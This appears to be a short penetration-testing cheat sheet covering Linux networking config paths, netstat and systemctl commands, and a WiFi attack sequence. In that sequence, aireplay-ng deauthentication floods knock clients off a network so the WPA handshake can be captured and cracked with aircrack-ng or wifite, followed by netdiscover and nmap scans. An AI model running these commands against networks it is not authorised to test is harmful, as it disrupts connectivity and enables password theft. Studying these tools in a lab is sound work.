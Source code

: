 
# Networking

- Proxychains config
`/etc/proxychains4.conf`

- DNS manual config
`/etc/dhcp/dhclient.comf`

- DNS network config
`/etc/resolv.config`

- Netstat
`netstat -natu | grep 'ESTABLISHED'`
`netstat -natu | grep 'LISTENING'`

- Systemctl
`systemctl start/restart networking`
`systemctl stop networking`
`systemctl status networking`

- Interface
`ip link set <interface> up/down`

- HANDSHAKE
`ipconfig/iwconfig`
`airmon-ng start (wlan0)`

- Note bssid, station, channel, beacon**
`airodump-ng (wan0mon)`
`airodump-ng -c (channel) --bssid (BSSID) -w (write file) (wlan0mon)`

- Kick off network to capture 4-way handshake
`aireplay-ng --deauth 0 -a (bssid) -c (station) wlan0mon`

- View capture.cap file in Wireshark (eapol filter)
`aircrack-ng capture.cap -w (wordlist.txt)`

- Wifite
`sudo wifite --wpa --dict (file.txt) --kill`

- Discover devices in the network
`netdiscover -r 192.168.0.0/24`

- Use nmap on target ip
`nmap 192.168.1.0`

Use browser to navigate http site
